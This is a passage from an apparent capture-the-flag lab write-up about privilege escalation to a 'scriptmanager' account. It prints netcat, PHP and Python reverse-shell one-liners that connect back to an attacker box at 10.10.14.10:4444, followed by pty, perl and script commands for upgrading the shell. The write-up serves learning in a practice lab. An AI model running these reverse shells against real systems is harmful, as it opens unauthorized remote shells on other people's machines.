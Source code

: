 :thumbsdown: Nope.

...try to connect back to the attacker box:

```bash
sudo -u scriptmanager nc -e /bin/sh 10.10.14.10 4444
```

:thumbsdown: Nope. `-e` flag is not supported.

... * *cough* * try to connect back to the attacker box??

```
sudo -u scriptmanager php -r '$sock=fsockopen("10.10.14.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

:thumbsdown: That's a hard nope, buddy.

But like, try to connect back to the attacker box..?

```bash
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

:stuck_out_tongue_closed_eyes: Now that's more like it!

![reverse shell](reverse%20shell.png)

But this shell is somewhat uncomfortable to use. No tab completion, colours, or command history/recall. Yuck! Let's fix that:

> The first step is not necessary: the reverse shell that succeeded already uses bash. But it won't hurt to do it anyway.



### Upgrading the Shell

I originally learned this procedure [from this blog post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). It goes into much more depth, but I find that the following is usually sufficient. In only a few rare cases have I had to do more than this. This also assumes python is available on the target machine. Starting with the "dumb" shell, change from ``sh`` to ``bash``:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

> If you don't have access to python, try this one with perl:
>
> ```bash
> perl -e 'exec "/bin/bash"'
> ```
>
> Or just go straight to this:
>
> ```bash
> SHELL=/bin/bash script -q /dev/null
> ```
